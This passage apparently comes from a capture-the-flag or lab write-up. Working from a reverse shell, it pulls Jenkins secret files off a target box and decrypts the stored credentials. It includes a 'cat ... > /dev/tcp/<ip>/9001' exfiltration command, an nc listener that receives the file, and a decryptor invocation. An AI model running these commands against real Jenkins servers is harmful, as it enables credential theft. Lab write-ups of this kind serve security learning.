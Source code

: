 The repo shows that the three files are necessary, credentials.xml, master.key and hudson.util.Secret

First two can be easily copied from reverse shell instance and stored on host, but hudson.util.Secret contains some non-printable characters so we directly send through linux network files

On box
```
cat hudson.util.Secret > /dev/tcp/<ip>/9001
```

On host
```
nc -lnvp 9001 > hudson.util.Secret
```

We will get all files required, so lets run the binary

![](Files/image10.png)

```bash
./jenkins-credentials-decryptor -m master.key -s hudson.util.Secret -c credentials.xml -o text
```
![](Files/image11.png)
